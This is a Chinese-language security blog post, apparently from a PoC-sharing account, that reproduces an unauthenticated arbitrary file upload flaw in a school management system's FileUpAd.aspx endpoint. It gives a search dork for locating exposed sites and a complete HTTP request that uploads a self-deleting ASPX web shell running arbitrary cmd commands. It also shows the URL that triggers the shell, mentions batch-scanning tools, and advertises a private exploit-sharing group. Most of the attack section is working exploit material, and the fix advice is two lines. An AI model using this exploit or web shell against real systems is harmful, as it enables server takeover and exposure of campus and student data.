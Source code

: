 #  【漏洞复现】智慧校园(某校易)管理系统 FileUpAd.aspx 任意文件上传漏洞   
Superhero  Nday Poc   2024-08-26 23:33  
  
**0x00 免责声明**  
  
内容仅用于学习交流自查使用，由于传播、利用本公众号所提供的  
POC信息及  
POC对应脚本  
而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号nday poc及作者不为此承担任何责任，一旦造成后果请自行承担！如文章有侵权烦请及时告知，我们会立即删除文章并致歉。谢谢！  
  
**0x01 产品简介**  
  
  
“某校易”是某达云创公司基于多年教育市场信息化建设经验沉淀，经过充分的客户需求调研，并依据国家“十三五”教育信息化建设规范而推出的综合互联网+教育信息化解决方案。“某校易”以物联网技术为基础，以学生在校“学食住行”管理为中心，将消费管理、门禁管理、各类学生出入管理、家校互通、校门口进出身份识别等系统进行集成，有效减少校园管理盲点，提升校园安全防范与管理水平。  
  
**0x02 漏洞概述**  
  
  
智慧校园(某校易)管理系统 FileUpAd.aspx 接口处存在任意文件上传漏洞，未经身份验证的攻击者通过漏洞上传恶意后门文件，执行任意代码，从而获取到服务器权限。  
  
**0x03 搜索引擎**  
```
title="智慧综合管理平台登入"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKbI3NL2rzh8T6MOeOvKc38xc8dGQIUxwW15lLoRVGTYQTWX9hwcXeaJTuEJmGyaib2ypqhOGv9NpA/640?wx_fmt=png&from=appmsg "")  
  
  
**0x04 漏洞复现**  
```
POST /Module/FileUpPage/FileUpAd.aspx?file_tmid=upload HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2,
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=----21909179191068471382830692394
Connection: close
 
------21909179191068471382830692394
Content-Disposition: form-data; name="File"; filename="asd.aspx"
Content-Type: image/jpeg
 
<%@ Page Language="Jscript" validateRequest="false" %><%var c=new System.Diagnostics.ProcessStartInfo("cmd");var e=new System.Diagnostics.Process();var out:System.IO.StreamReader,EI:System.IO.StreamReader;c.UseShellExecute=false;c.RedirectStandardOutput=true;c.RedirectStandardError=true;e.StartInfo=c;c.Arguments="/c " + Request.Item["cmd"];e.Start();out=e.StandardOutput;EI=e.StandardError;e.Close();Response.Write(out.ReadToEnd() + EI.ReadToEnd());System.IO.File.Delete(Request.PhysicalPath);Response.End();%>
------21909179191068471382830692394--
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKbI3NL2rzh8T6MOeOvKc38aAyqTg6N1c5nDibohANJG5eOiaYfqESg0MlWibNjV9ApIKEddCrQygWCg/640?wx_fmt=png&from=appmsg "")  
```
/imgnews/imgad/000000/upload.aspx?cmd=whoami
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKbI3NL2rzh8T6MOeOvKc38oBrHEPQicvWQiciaSoMup6XxObk5URLPdsnJzOE8ez3zC3ibZxRhibetj7Q/640?wx_fmt=png&from=appmsg "")  
  
  
**0x05 工具批量**  
  
nuclei  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKbI3NL2rzh8T6MOeOvKc38bxvxPqL1g3C7ibZeHOfJ5nKzib6ZOBiboicibJWfcWkHDicXyJAKe6qYyrkA/640?wx_fmt=png&from=appmsg "")  
  
afrog  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKbI3NL2rzh8T6MOeOvKc38u73ucLn2V6pkuTwDH6Jia0dKpClVY0vJrjMYfbv4ia2ibKSAr8YYaWvAQ/640?wx_fmt=png&from=appmsg "")  
  
xray  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKbI3NL2rzh8T6MOeOvKc380pBaqNMCibYRx4kMXk4IIj6teOiaqGFnMviaicFjCYbzBUm5ibIWyKeyfGw/640?wx_fmt=png&from=appmsg "")  
  
POC脚本获取  
  
请使用VX扫一扫加入内部  
POC脚本分享圈子  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwI0X77l5WtnpfTexA6RwHXSbf1x3ZyT3bhcbWzRoFLyAgHkSMk9yGaZK5FDGcSCQp9ibPcicxHXIOcg/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&retryload=2&tp=webp "")  
  
  
**0x06 修复建议**  
  
1、关闭互联网暴露  
面或接口设置访问权限  
  
2、升级至安全版本  
  
  
